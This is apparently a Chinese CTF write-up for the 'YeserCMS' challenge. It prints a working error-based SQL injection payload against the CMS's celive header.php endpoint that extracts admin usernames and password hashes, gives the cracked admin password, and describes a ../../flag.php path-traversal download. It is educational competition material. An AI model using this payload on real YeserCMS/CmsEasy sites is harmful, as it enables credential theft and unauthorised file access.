






# YeserCMS

## 题目描述
---
```
新的CMS系统，帮忙测测是否有漏洞。
tips:flag在网站根目录下的flag.php中    
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---
SQL注入 任意文件下载

## 题目分值
---
50

## 解题思路
---

搜索公开的YeserCms漏洞，存在SQL注入和任意文件下载漏洞。

漏洞参考1：https://www.w00yun.top/bugs/wooyun-2015-0137013.html

漏洞参考2：https://www.seebug.org/vuldb/ssvid-94084

celive/live/header.php页面进行注入：

```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>
```



可以看到密码是不完整的，修改`mid`方法的参数，将`1,32`修改为`32,64`获取剩余部分密码hash



得到`admin|ff512d4240cbbdeafada404677ccbe61`



口算出Hash值为`Yeser231`

登录，进入管理页面



在模板功能处，存在任意文件下载漏洞




抓包修改`&id=`后面的值为`&id=../../flag.php` 即可获得flag




## 参考
---


